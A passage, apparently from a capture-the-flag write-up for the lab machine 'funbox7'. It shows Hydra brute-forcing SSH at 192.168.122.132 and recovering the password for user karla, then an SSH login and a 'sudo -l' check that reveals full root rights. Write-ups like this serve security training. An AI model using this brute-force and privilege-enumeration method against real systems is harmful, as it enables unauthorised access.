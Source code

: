 ```bash
[DATA] max 5 tasks per 1 server, overall 5 tasks, 5 login tries (l:5/p:1), ~1 try per task
[DATA] attacking ssh://192.168.122.132:22/
[22][ssh] host: 192.168.122.132   login: karla   password: tgbzhnujm!
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-02-28 17:25:19
```

I can ssh as karla:

```bash
$ ssh karla@192.168.122.132
The authenticity of host '192.168.122.132 (192.168.122.132)' can't be established.
ED25519 key fingerprint is SHA256:O6BLR8bFSyZavzqwjyqsKadofhK4GNKalxHMVbZR+5Q.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.122.132' (ED25519) to the list of known hosts.
karla@192.168.122.132's password:
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-117-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Feb 28 22:25:51 UTC 2023

  System load:  0.0               Processes:             166
  Usage of /:   62.8% of 4.66GB   Users logged in:       0
  Memory usage: 56%               IP address for ens192: 192.168.122.132
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

0 packages can be updated.
0 updates are security updates.


To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.
```

First thing to do is check sudo privs:

```bash
karla@funbox7:~$ sudo -l
[sudo] password for karla:
Matching Defaults entries for karla on funbox7:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User karla may run the following commands on funbox7:
    (ALL : ALL) ALL
```
